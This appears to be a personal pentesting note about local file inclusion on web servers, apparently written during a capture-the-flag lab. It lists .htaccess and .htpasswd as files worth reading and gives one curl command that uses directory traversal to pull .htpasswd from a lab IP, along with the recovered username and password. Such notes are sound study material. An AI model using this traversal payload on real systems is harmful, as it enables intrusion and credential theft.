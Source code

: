 tags:: apache, ngnix, iis

- If you manage to get #LFI, then you can look for interesting files
	- `.htaccess`
	  logseq.order-list-type:: number
	- `.htpasswd`
	  logseq.order-list-type:: number
	- ==TODO==: Search for a wordlist optimized for webservers file and use it with `gobuster`.
	  logseq.order-list-type:: number
	- While I was playing with the [[Included VM]] I managed to get user password this way
	  
	  ```bash
	  curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
-